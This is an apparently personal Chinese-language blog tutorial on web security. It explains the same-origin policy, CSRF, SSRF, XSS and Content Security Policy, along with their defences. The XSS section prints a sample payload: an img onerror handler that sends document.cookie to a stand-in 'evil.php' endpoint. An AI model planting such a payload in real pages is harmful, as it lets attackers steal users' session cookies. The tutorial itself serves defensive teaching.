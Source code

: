 ```yaml
---
title: web security
date: 2020-06-15 17:05:45
tags: web
---
```


# 同源协议（SOP)
所谓的同源协议，就是阻止程序员访问第三方数据的一种手段，对浏览器本身是没有任何的影响。换句话说，图片该显示显示，但你无法获取到它的二进制，iframe该展示展示，但你获取不到它的节点，ajax该读取读取，但你获取不到它的响应文。

同源协议可以
* 跨域写操作
* 跨域嵌入操作
不可以
* 跨域读操作

# CSRF

（Cross-site request forgery）跨站请求伪造，是一种常见的攻击方式。是指 A 网站正常登陆后，cookie 正常保存，其他网站 B 通过某种方式调用 A 网站接口进行操作，A 的接口在请求时会自动带上 cookie。
上面说了，SOP 可以通过 html tag 加载资源，而且 SOP 不阻止接口请求而是拦截请求结果，CSRF 恰恰占了这两个便宜。

```

// 使用xhr请求会受到sop限制，不会带上cookie
 <script>
        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {//服务器返回值的处理函数，此处使用匿名函数进行实现
            if (xhr.readyState == 4 && xhr.status == 200) {//
                var responseText = xhr.responseText;
                document.getElementById('result').innerHTML = responseText;
            }
        };
        xhr.open("GET", "http://dummy.restapiexample.com/api/v1/employees", true);//提交get请求到服务器
        xhr.send(null);
    </script>

  // 使用img的tag请求会带上cookie
    <img src="http://dummy.restapiexample.com/api/v1/employees"/>
```

- CSRF自动防御策略：同源检测（Origin 和 Referer 验证）。
- CSRF主动防御措施：Token验证 或者 双重Cookie验证 以及配合Samesite Cookie。
- 保证页面的幂等性，后端接口不要在GET页面中做用户操作。

![](/images/web_security/same_site.png)

# SSRF

SRF，服务器端请求伪造，服务器请求伪造，是由攻击者构造的漏洞，用于形成服务器发起的请求。通常，SSRF攻击的目标是外部网络无法访问的内部系统。

# XSS

XSS 跨站脚本攻击，用户注入恶意的代码，浏览器和服务器没有对用户的输入进行过滤，导致用户注入的脚本嵌入到了页面中。由于浏览器无法识别这些恶意代码正常解析执行，攻击者的恶意操作被成功执行，比如可以获取用户的cookie数据然后发送给自己或者冒充正常用户向被攻击的服务器发送请求。


xss攻击分类

* 反射型：攻击者构造一个带有恶意代码的url链接诱导正常用户点击，服务器接收到这个url对应的请求读取出其中的参数然后没有做过滤就拼接到Html页面发送给浏览器，浏览器解析执行
* 存储型： 攻击者将带有恶意代码的内容发送给服务器（比如在论坛上发帖），服务器没有做过滤就将内容存储到数据库中，下次再请求这个页面的时候服务器从数据库中读取出相关的内容拼接到html上，浏览器收到之后解析执行
* dom型：dom型xss主要和前端js有关，是前端js获取到用户的输入没有进行过滤然后拼接到html中

XSS防御：

对于XSS攻击来说，通常有两种方式来进行防御。

1、转义字符；
2、CSP安全内容策略：CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。
通常可以通过两种方式来开启 CSP：

* 设置 HTTP Header 中的 Content-Security-Policy
* 设置 meta 标签的方式

利用错误信息和搜索结果的反射进行的 XSS，称为反射型 XSS
盗取用户 cookie，例如插入这样一段代码
```
<img
  src="xx"
  onerror="post('../evil.php?cakemonster=' + escape(document.cookie))"
/>
```

还有另一种 XSS 是储存型 XSS。储存型也比较容易理解，攻击者把恶意脚本提交到被害服务器，并成功储存，所有人访问特定页面都会遭到攻击。

总之，如果开发者没有将用户输入的文本进行合适的过滤，就贸然插入到 HTML 中，这很容易造成注入漏洞。攻击者可以利用漏洞，构造出恶意的代码指令，进而利用恶意代码危害数据安全。

# Content Security Policy

CSP 诞生的主要目的就是防御 XSS 攻击. 严格的 CSP 在 XSS 的防范中可以起到以下的作用：
* 禁止加载外域代码，防止复杂的攻击逻辑。
* 禁止外域提交，网站被攻击后，用户的数据不会泄露到外域。
* 禁止内联脚本执行（规则较严格，目前发现 GitHub 使用）。
* 禁止未授权的脚本执行（新特性，Google Map 移动版在使用）。
* 合理使用上报可以及时发现 XSS，利于尽快修复问题。

CSP doesn't (and can't) prevent CSRF. Even if you forbid all scripts from executing, CSRF attacks are still possible if no per-request tokens are used